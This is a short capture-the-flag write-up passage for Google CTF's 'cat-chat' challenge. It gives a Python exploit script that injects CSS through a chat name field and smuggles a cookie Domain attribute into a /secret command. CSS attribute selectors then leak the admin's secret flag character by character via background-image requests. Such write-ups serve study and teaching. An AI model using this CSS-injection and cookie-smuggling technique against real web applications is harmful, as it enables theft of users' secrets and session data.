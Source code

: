 Final payload for manually determining one character at a time:
```python
import requests
import urllib
from time import sleep
import random

url = "https://cat-chat.web.ctfcompetition.com/room/d04b5419-ca84-4f13-ac65-925cbdd17f6f"

def injectCSS(css):
    send("a]{} " + css + " sdfsdf[sdsf=ff", "dog is da shit!")

def send(name, message):
    requests.get(url + "/send", params={"name": name, "msg": message}, headers={'referer': url})

# Step 1: Join room manually and write /report

# Step 2-3: Get him banned and dump password to HTML DOM in data-secret="XXX"
send("/secret deadbeef; Domain=foo.web.ctfcompetition.com", "I fucking love dogs!")
sleep(2)

# Step 4-5: Leak admin cookie using CSS
payload = "body {background: orange}"
flag = "CTF\{L0LC4"
for c in 'ABCDEFGHIJKLMNOPQRSTUVXYZW_-1234567890':
    payload += " span[data-secret^=" + flag + c + "] { background: url(" + url + "/send?name=Guessed&msg=" + flag + c + ") }"

injectCSS(payload)
```

The images below show the result from the webbrowser:
![leaking_secret](images/leaking_secret.png)
